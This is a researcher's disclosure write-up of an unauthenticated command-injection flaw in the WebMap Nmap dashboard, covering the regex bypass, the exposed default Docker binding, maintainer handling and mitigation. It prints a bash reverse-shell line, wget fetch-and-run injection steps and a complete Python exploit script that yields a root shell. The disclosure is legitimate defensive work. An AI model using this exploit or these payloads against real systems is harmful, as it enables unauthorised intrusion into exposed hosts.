

# WebMap

<figure><figcaption></figcaption></figure>

### Summary

WebMap is an open-source, Docker-deployed dashboard for running and visualizing Nmap scans, with 100K+ Docker Hub pulls, 1.1K+ GitHub stars, and \~300 forks. Its scan endpoint takes user-supplied parameters and passes them straight into a shell command.

A gap in the input validation regex lets an attacker smuggle a newline into that command, breaking out of the intended `nmap` invocation and running arbitrary shell commands as root inside the container, with no authentication required.

The official Docker deployment instructions bind the service to all network interfaces by default, so anyone who followed the README is likely exposed to the internet.

All versions up to (including) this [commit](https://github.com/SabyasachiRana/WebMap/commit/8b95fe4dc301a3c09ddf145b895de0bf9f8d2a25) is vulnerable.

This bug has been present since 2019 and it's fixed in this [commit](https://github.com/SabyasachiRana/WebMap/commit/3d52f65803a2716bff14d938352c6fef45b0cfb6).

### Two Separate Problems

This issue is two problems stacked on top of each other:

1. **The vulnerability itself -** an unauthenticated command injection in the scan endpoint, detailed below.
2. **The deployment problem** - the default Docker command in the README exposes WebMap to the internet.

### How it started

My discovery of this vulnerability was indirect.

I previously downloaded `WebMap` to visualize my nmap scans in a Graph, and I forgot about it, then later performed a network scan on my VPN IP to check whether any ports are exposed, and I discovered that port 8000 running **WebMap** is open.

Checking my Docker instances with `docker ps` confirmed it was running on all interfaces:

```bash
⚔️  WebMap git:(8b95fe4) docker ps
CONTAINER ID   IMAGE                              COMMAND                  CREATED              STATUS                 PORTS                                                          NAMES
b8c681ac6521   reborntc/webmap                    "bash /startup.sh"     Not important            Up      0.0.0.0:8000->8000/tcp, [::]:8000->8000/tcp                                 webmap
```

Interesting.

I asked myself:

"What if this tool was vulnerable and I was exposing a vulnerable service to all my interfaces".

So lets poke it with a stick and see what happens.

### Poking it with a stick

Apparently, they are using some sort of authentication, so we generate a token and log in:

<figure><figcaption><p>WebMap Login Page</p></figcaption></figure>

Among the other functionalities in the dashboard is the new nmap scan functionality:

<figure><figcaption></figcaption></figure>

Running another binary is an obvious use case for Command injection, we can test many of these parameters but the most flexible one is the `params` parameter.

<figure><figcaption><p>Regular request</p></figcaption></figure>

If we try something like `$(ls)` we get an `invalid syntax` response so there is some kind of **input sanitization** :

<figure><figcaption><p>Test request 1</p></figcaption></figure>

### But, is it efficient?

Developers tend to miss sanitizing whitespace, one of the Command injection techniques is to inject a `newline \n` , which starts a new command.

We can simply do this in Burp by using `%0a` so our payload will be:

`%0a` `command` `%0a`

First newline is to start a new command and the last newline to skip anything that comes after our command so we just pass it to the next line.

However, because the output is not displayed, we need to do an **Out of Band Command Injection**, so I fired up my Python server and ran cURL on my Docker host IP :

<figure><figcaption><p>Test request 2</p></figcaption></figure>

### **It worked! but it didn't**

We no longer get an 'invalid syntax' error, however, I haven't receive any request:

<figure><figcaption></figcaption></figure>

Maybe they are silently cutting out any newlines?

Maybe they actually have a very good input filtering?

**Maybe it's just the container doesn't have `curl` installed:**

<figure><figcaption></figcaption></figure>

### Where the excitement begins

So, after checking other tools on the container, we find out it has `wget` :

<figure><figcaption><p>Test request 3</p></figcaption></figure>

#### **Bingo,** we have successfully achieved remote command execution!

Now let's get our reverse shell:

<figure><figcaption><p>Test request 4</p></figcaption></figure>

Again, `invalid syntax`.

But because we have `wget` we can download our payload and execute it with no need for any additional characters other than newline.

We create `bash.sh` :


```bash
/bin/bash -c 'sh -i >& /dev/tcp/10.200.0.1/3737 0>&1'
```


Download it with wget & executing it:

<figure><figcaption><p>Test request 5</p></figcaption></figure>

Again! `invalid syntax` .

Obviously it's because of the slash `/` , so what we can do?

It's actually pretty simple; we just need to rename our `bash.sh` to `index.html` and download the page without a `/`.

However, because we fetched `index.html` before, **the next downloaded file would be index.html.1 or index.html.{number}**, that's the default behavior of `wget` it doesn't overwrite files by default.

We can just specify the file with `-O bash.sh` or `-O index.html` and run it:

<figure><figcaption><p>Test request 6 - Fully Interactive Remote Code Execution</p></figcaption></figure>

Now, We successfully leveraged the command injection to achieve **Interactive remote code execution as root inside the container**.

### The Last Piece of the Puzzle

This is considered an **authenticated remote code execution**, it's good, but wasn't enough for me.

So I tried the very simple way to bypass it:

1. Opened a new repeater tab
2. Removed the session cookie

And here is the surprise :

<figure><figcaption></figcaption></figure>

**Authentication was not ENFORCED in this endpoint!**

This leaves us with CSRF tokens, you have two tokens:

* `csrfmiddlewaretoken` parameter
* `csrftoken` cookie

You can collect both of them when you visit the login page so it's not a matter of concern.

Full Proof of concept will be at the end of this page.

### Source code analysis

I could have read the source code without going through this in blackbox, but I was doing it for the fun and it didn't take much time to get full RCE.

The vulnerable code lives in `functions_nmap.py`, in `nmap_newscan()`. User-supplied POST parameters are validated with this regex before being used to build a shell command:

```python
if(re.search(r'^[a-zA-Z0-9\_\-\.]+$', filename) 
and re.search(r'^[a-zA-Z0-9\-\.\:\=\s,]+$', request.POST['params'])
and re.search(r'^[a-zA-Z0-9\-\.\:\/\s]+$', request.POST['target'])):

   res = {'p':request.POST}
```

The bug is in that `\s`. Python's re module treats `\s` as matching whitespace, tab, `\n`, `\r`, `\f`, and `\v` not just space and tab. A literal newline (`%0a` URL-encoded) satisfies the validation and sails through.

The validated value is then interpolated directly into a shell string and executed:

```python
cmd = '({nmap} {params} --script={script_dir} -oX /tmp/{filename}.active {target} > /tmp/nmap_scan.log 2>&1; mv /tmp/{filename}.active /opt/xml/{filename} >> /tmp/nmap_scan.log 2>&1) &'.format(
        nmap=nmap_bin,
        params=request.POST['params'],
        script_dir=settings.BASE_DIR + '/nmapreport/nmap/nse/',
        filename=filename,
        target=request.POST['target']
        )

subprocess.Popen(cmd, shell=True)
```

The dashboard page checks for a session token before rendering, but the scan creation endpoint (`/api/v1/nmap/scan/new`) performs no such check, so the vulnerability is reachable directly without ever passing the dashboard's login:

```python
# views.py — dashboard checks the session token
def index(request, filterservice="", filterportid=""):
	if 'auth' not in request.session:
		return render(request, 'nmapreport/nmap_auth.html', r)

# functions_nmap.py — scan endpoint has no such check
def nmap_newscan(request):
	if request.method == "POST":
		# no session check anywhere in this file
```

### The Default Deployment Problem

WebMap's README carries this warning:

> This app is not intended to be exposed to the internet ... Please, DO NOT expose this app to the internet, use your localhost or ... take care to filter who and what can access

But the deployment command given in the same README does exactly the opposite:

```bash
mkdir -p _container/xml _container/notes _container/notes
docker run -d \
    --name webmap \
    -h webmap \
    -p 8000:8000 \
    -v ./_container/xml:/opt/xml \
    -v ./_container/notes:/opt/notes \
    -v ./_container/schedule:/opt/schedule \
    ghcr.io/sabyasachirana/webmap
```

`-p 8000:8000` binds the container to `0.0.0.0`, every interface on the host, by default.

Docker gives no warning about this; nothing tells you this container is now exposed to the internet unless you run `docker ps` .

Flask, for comparison, binds to localhost by default when you run `app.run(port=8000)`.

With 100K+ pulls, a lot of people have run WebMap's default command exactly as written.

### What the Maintainer Did

I reported this through a GitHub security advisory ( GHSA-rpg3-65vx-ffwm ). I was so excited for my first CVE that I couldn't wait so I did some OSINT and found the maintainer's LinkedIn profile, and reached out directly to gently ask them to review the advisory urgently.

Setting aside how they were disrespectful, they told me the project is just for fun and that **it must only run on localhost or it's the user's problem**, ignoring that their own repository download & usage instructions is what exposes it by default, and ignoring the severity and scale of real users affected, and how popular the project is. Then blocked me.

They later closed the advisory without warning users, and without crediting my research or requesting a CVE assignment. I was also removed as a collaborator from the advisory.

<figure><figcaption><p>The maintainer closed the GitHub Security Advisory without publication</p></figcaption></figure>

<figure><figcaption><p>The maintainer removed me as a collaborator on the Advisory</p></figcaption></figure>

<figure><figcaption><p>How he is behaving</p></figcaption></figure>

A fix was eventually pushed silently to master branch with no mention of a vulnerability anywhere. No changelog, no advisory, nothing. This repository has no version tags, no releases, everything goes straight to master, so users have no way of knowing anything changed unless they are watching commits.

Because of how this was handled I submitted a CVE request to VulDB.

### Am I Affected?

If you pulled the image or cloned the repo before this [commit](https://github.com/SabyasachiRana/WebMap/commit/3d52f65803a2716bff14d938352c6fef45b0cfb6) , you're on a vulnerable version. If your instance was reachable from any network you don't fully control, treat it as potentially compromised.

If you are at or after that commit, this specific vulnerability was addressed. However the fix was not reviewed properly. The mitigation below is still recommended.

### Mitigation

Change your port binding from:

```
-p 8000:8000
```

to:

```
-p 127.0.0.1:8000:8000
```

Full corrected command:

```bash
docker run -d \
    --name webmap \
    -h webmap \
    -p 127.0.0.1:8000:8000 \
    -v ./_container/xml:/opt/xml \
    -v ./_container/notes:/opt/notes \
    -v ./_container/schedule:/opt/schedule \
    ghcr.io/sabyasachirana/webmap
```

This limits access to the local machine and significantly cuts the attack surface, but it does not fix the underlying vulnerability. Anyone with any other foothold on the host can still reach and exploit the service. The only real fix is running a version at or after commit `3d52f65`.

### Proof of concept


```py
#!/usr/bin/env python3
import re
import sys
import time
import threading
import requests
import tempfile
import os
from http.server import HTTPServer, SimpleHTTPRequestHandler

def get_csrf_tokens(ip: str, port: str) -> tuple[str, str, requests.Session]:
    url = f"http://{ip}:{port}/view/login/"
    session = requests.Session()
    response = session.get(url)
    response.raise_for_status()

    csrf_cookie = session.cookies.get("csrftoken")
    match = re.search(
        r'name="csrfmiddlewaretoken"\s+value="([^"]+)"',
        response.text,
    )
    if not match:
        raise RuntimeError("Could not find csrfmiddlewaretoken in the login page.")
    csrf_token = match.group(1)
    return csrf_cookie, csrf_token, session

def start_http_server(ip: str, port: int, serve_dir: str) -> HTTPServer:
    class Handler(SimpleHTTPRequestHandler):
        def __init__(self, *args, **kwargs):
            super().__init__(*args, directory=serve_dir, **kwargs)

    server = HTTPServer((ip, port), Handler)
    thread = threading.Thread(target=server.serve_forever)
    thread.daemon = False
    thread.start()
    return server

def main():
    if len(sys.argv) != 7:
        print(f"Usage: {sys.argv[0]} <target_ip> <target_port> "
              "<http_server_ip> <http_server_port> <revshell_ip> <revshell_port>")
        sys.exit(1)

    target_ip, target_port = sys.argv[1], sys.argv[2]
    http_server_ip, http_server_port = sys.argv[3], int(sys.argv[4])
    revshell_ip, revshell_port = sys.argv[5], sys.argv[6]

    tmpdir = tempfile.mkdtemp(prefix="webmap_exploit_")
    shell_path = os.path.join(tmpdir, "index.html")
    shell_content = (
        f"/bin/bash -c 'sh -i >& /dev/tcp/{revshell_ip}/{revshell_port} 0>&1'\n"
    )
    with open(shell_path, "w") as f:
        f.write(shell_content)
    print(f"[*] index.html written to {shell_path}")
    print(f"[*] Payload: {shell_content.strip()}")

    print(f"[*] Starting HTTP server on {http_server_ip}:{http_server_port} ...")
    httpd = start_http_server(http_server_ip, http_server_port, tmpdir)
    print(f"[+] HTTP server is up. Serving {shell_path} as index.html")
    time.sleep(1)

    try:
        print(f"[*] Fetching CSRF tokens from http://{target_ip}:{target_port}/view/login/ ...")
        csrf_cookie, csrf_token, session = get_csrf_tokens(target_ip, target_port)
        print(f"[+] csrftoken cookie: {csrf_cookie}")
        print(f"[+] csrfmiddlewaretoken: {csrf_token}")

        download_url = f"{http_server_ip}:{http_server_port}" # without http:// because slashes are blocked
        params_payload = (
            "-oA a\n"
            f"wget -O shell.sh {download_url}\n"
            "bash shell.sh\n"
        )
        print(f"[*] Malicious params (raw):\n{repr(params_payload)}")

        data = {
            "csrfmiddlewaretoken": csrf_token,
            "filename": "test",
            "target": "127.0.0.1",
            "params": params_payload,
            "schedule": "false",
            "frequency": "1h",
        }

        exploit_url = f"http://{target_ip}:{target_port}/api/v1/nmap/scan/new"
        print(f"[*] Sending malicious POST to {exploit_url} ...")
        resp = session.post(exploit_url, data=data)
        print(f"[+] Response status: {resp.status_code}")
        print(f"[+] Response text: {resp.text[:500]}...")

        if resp.status_code == 200:
            print("[+] Exploit triggered successfully.")
            print("[+] Check your netcat listener for the reverse shell!")
        else:
            print("[-] Target might not be vulnerable or the request failed.")

    except Exception as e:
        print(f"[-] Error during exploitation: {e}")
    finally:
        print("[*] HTTP server is still running. Press Ctrl+C to stop and clean up.")
        try:
            while True:
                time.sleep(1)
        except KeyboardInterrupt:
            print("\n[!] Shutting down HTTP server...")
            httpd.shutdown()
            httpd.server_close()
            os.remove(shell_path)
            os.rmdir(tmpdir)
            print("[+] Clean up complete. Exiting.")

if __name__ == "__main__":
    main()

```

